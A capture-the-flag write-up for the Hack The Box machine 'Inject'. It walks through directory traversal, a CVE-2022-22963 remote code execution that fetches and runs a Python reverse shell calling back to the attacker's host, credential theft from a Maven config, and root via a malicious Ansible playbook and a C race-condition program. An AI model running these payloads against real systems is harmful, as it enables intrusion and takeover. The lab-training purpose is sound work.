




Inject is an easy Linux machine created by rajHere on Hack The Box that involves Exploiting a Directory Traversal bug to locate and read local files as frank. We use this vulnerability to enumerate software versions involved in the web server, where we find an outdated Spring Framework installation that is vulnerable to a critical bug tracked as CVE-2022-22963. This bug is then used to gain code execution as frank, and find credentials for phil in frank’s home directory. The user phil is permitted to write Ansible playbooks to a certain directory that is used by root in scheduled CRON jobs. With a special playbook, we are then able to execute code as root and fetch the system flag
Initial Recon #
Let’s set up our environment and run a TCP port scan with this custom nmap wrapper.
# mhil4ne@Kali (bash)
rhost="10.10.11.204" # Target IP address
lhost="10.10.14.4" # Your VPN IP address
echo rhost=$rhost >> .env
echo lhost=$lhost >> .env
. ./.env && ctfscan $rhost
The open ports reported in the scan include:
| Port | Service | Product | Version |
|---|---|---|---|
| 22 | ssh | OpenSSH | 8.9p1 |
| 80 | HTTP | Nagios NSCA |
Web #
We’ll begin by exploring the HTTP server on port 8080 since web services are often vulnerable. Let’s also route our requests through our local BurpSuite proxy or just use BurpSuite’s built-in browser.
The home page introduces a few features including the ability to upload files. Let’s check out that page since file uploads are a slippery slope when it comes to security.
We’ll try uploading a file in our browser session while we capture the request with BurpSuite.
POST /upload HTTP/1.1
Host: 10.10.11.204:8080
Content-Length: 220
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAPgIHu4nfmqDyyE2
User-Agent: BurpSuite
Accept: */*
------WebKitFormBoundaryAPgIHu4nfmqDyyE2
Content-Disposition: form-data; name="file"; filename="demo.txt"
Content-Type: text/plain
This is a standard UTF-8 text file...
------WebKitFormBoundaryAPgIHu4nfmqDyyE2--
The response indicates that the form exclusively accepts image files, so we’ll try uploading an image.
The upload is successful plus we get to view the image dynamically at the /show_image endpoint.
File Disclosure #
t appears that the image file is loaded dynamically from the filesystem using the img parameter. Let’s see if we can read any files outside of our working directory like /etc/passwd.
# mhil4ne@kali (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../etc/passwd"
root:.x:0:0:root:/root:/bin/bash
daemon:.x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:.x:2:2:bin:/bin:/usr/sbin/nologin
...
We can seemingly use this endpoint to read local files using a generic directory traversal payload. Messing around a bit more, we find out that we can list directories as well.
# mhil4ne@kali (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../"
bin
boot
dev
...
Remote Code Execution #
Let’s find the application source so we can look for credentials or additional attack surface.
# mhil4ne@kali (bash)
inject_fetch() { curl -sm 1 "http://$rhost:8080/show_image?img="$@; }
inject_fetch ../ # read parent directory
inject_fetch ../java # keep looking ...
We eventually find what appears to be the project root for the current Java application at ../../../{:.filepath}. Within that directory, we find the Maven project configuration at pom.xml{:.filepath} containing a couple of notable software fingerprints.
- org.springframework.boot 2.6.5
- spring-cloud-function-web 3.2.2
If we search for vulnerabilities with either fingerprint, we see references to a couple of different CVEs. We confirm that Spring Cloud Function version 3.2.2 is vulnerable to CVE-2022-22963 by Checking the CVEDetails description.
In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources
There is already a number of proof-of-concept exploits out there, but I decided to create one anyways here. We’ll use this program to spawn a reverse shell that answers to a PwnCat listener.
# mhil4ne@kali (bash)
pwncat-cs -c <(echo "listen -m linux -H $lhost 443")
# mhil4ne@kali (bash)
inject_fetch ../../../../../../usr/bin | grep '^python' # python3 is installed
tmp=$(mktemp -d)
cat << EOF > $tmp/index.html
import os,pty,socket
s=socket.socket()
s.connect(("$lhost",443))
[os.dup2(s.fileno(),f)for(f)in(0,1,2)]
pty.spawn("bash")
EOF
python3 -m http.server --bind $lhost --directory $tmp 80 &
python3 CVE-2022-22963.py "http://$rhost:8080" "curl $lhost -o/tmp/_d"
python3 CVE-2022-22963.py "http://$rhost:8080" "python3 /tmp/_d"
We should then get a callback to our listener on port 443 as the user frank.
Privilege Escalation #
Frank #
We begin exploring the filesystem starting with frank’s home directory
# frank@inject (bash)
find ~ -type f
/home/frank/.bashrc
/home/frank/.m2/settings.xml
...
There’s a Maven user configuration file at ~/.m2/settings.xml{:.filepath} that contains credentials for the user phil.
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
<servers>
<server>
<id>Inject</id>
<username>phil</username>
<password>DocPhillovestoInject123</password>
<privateKey>${user.home}/.ssh/id_dsa</privateKey>
<filePermissions>660</filePermissions>
<directoryPermissions>660</directoryPermissions>
<configuration></configuration>
</server>
</servers>
</settings>
Phil #
We’ll login as phil with su using the password DocPhillovestoInject123, grab the user flag, then run some simple enumeration commands.
# phil@inject (bash)
sudo -l # no luck :(
id # staff group?
With the id command, find that phil has membership in a custom group called staff. Let’s see if this group has any special permissions on the filesystem.
# phil@inject (bash)
find / -group staff -ls 2>/dev/null
The most notable entry is the /opt/automation/tasks{:.nolineno} directory which grants write privileges to the staff group. Within that folder there is a read-only configuration file (playbook) for an IT automation framework known as Ansible. Since this has to do with automation, we suspect that there is a CRON job or something similar that utilizes this folder at certain intervals. We’ll use PSpy to monitor processes and find scheduled tasks.
# mhil4ne@kali (PwnCat phil@inject)
upload pspy /home/phil
# phil@inject (bash)
chmod +x pspy && ./pspy | tee -a pspy.log
After a couple minutes, we find a series of privileged processes running every two minutes that interact with /opt/automation/tasks{:.filepath} in a potentially unsafe manner.
- /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
- /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
- sleep 10
- /usr/bin/rm -rf /opt/automation/tasks/*
- /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
The first process in question evaluates any path satisfying /opt/automation/tasks/*.yml{:.filepath} as an Ansible playbook. We should be able to get our playbook evaluated since /opt/automation/tasks{:.filepath} is writable.
Ansible #
It turns out, executing commands in an Ansible playbook is possible and well documented, meaning we should be able to escalate to root this way. We’ll just add a task that will grant the SUID bit to /bin/sh{:.filepath}, making sure that we clean up after ourselves to not ruin the box for others.
- hosts: localhost
tasks:
- name: pwn
ansible.builtin.shell: "chmod +s /bin/sh"
# phil@inject (bash)
cat << EOF > /opt/automation/tasks/pwnbook.yml
- hosts: localhost
tasks:
- name: pwn
ansible.builtin.shell: chmod +s /bin/sh
EOF
After a couple minutes we verify that /bin/sh{:.filepath} or /bin/dash{:.filepath} have SUID, then spawn a root shell.
# phil@inject (bash)
/bin/sh -pi
Alternative Solution (Bonus) #
Let’s pretend that the magical wildcard used to execute our own playbook didn’t exist. Even without this, we can solve this machine by abusing a race condition in a CRON job. See, every two minutes root evaluates the playbook at /opt/automation/tasks/playbook_1.yml{:.filepath} alongside the following command:
sleep 10 &&
rm -rf /opt/automation/tasks/* &&
cp /root/playbook_1.yml /opt/automation/tasks/
gantt
dateFormat mm:ss
axisFormat %M:%S
tickInterval 2minute
title Process creation flow
section CRON Job
Run playbook : crit, milestone, p1, 00:00, 0s
Sleep : p2, 00:00, 10s
Remove playbooks : milestone, p3, 00:10, 0s
Copy original playbook to tasks folder : milestone, p4, 00:10, 0s
CRON Wait : w, 00:00, 2m
Looking at the timing of the calls from our PSpy log, we notice that the original playbook is deleted then replaced within under a second. It turns out, we can actually use the time between these actions to entirely prevent the playbook from being replaced. We do this by creating a directory at /opt/automation/tasks/playbook_1.yml{:.filepath} while the path is unclaimed. When the task attempts to populate that path, it runs into an error since a file cannot overwrite a directory no matter what the permissions are. Once the cp command fails, we’ll delete the directory and replace it with our malicious playbook, which is then evaluated after a couple minutes.
We just need to create a speedy compiled program that is efficient enough to time this correctly. The following Program should work nicely:
// gcc -static ./privesc2.c -o privesc2
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#define PLAYBOOK_PATH "/opt/automation/tasks/playbook_1.yml"
#define PLAYBOOK "- hosts: localhost\n"\
" tasks:\n"\
" - name: pwn\n"\
" ansible.builtin.shell: chmod +s /bin/sh\n"
void replace() {
struct stat sb;
while(1) {
if (stat(PLAYBOOK_PATH, &sb) != 0) {
if (mkdir(PLAYBOOK_PATH, 0700) == 0) {
puts("Swapped with directory!");
return;
}
puts("Fail!");
sleep(110);
}
usleep(100);
}
}
void plant() {
FILE *file;
if (file = fopen(PLAYBOOK_PATH, "w")) {
fprintf(file, "%s", PLAYBOOK);
fclose(file);
}
}
int main(int argc, char* argv[]) {
replace();
sleep(10);
system("rm -rf /opt/automation/tasks/playbook_1.yml");
plant();
puts("Done!");
return 0;
}
Running the compiled executable on the target should replace the file with our malicious playbook after a couple minutes. We then wait another couple minutes and run /bin/sh -pi to spawn a root shell.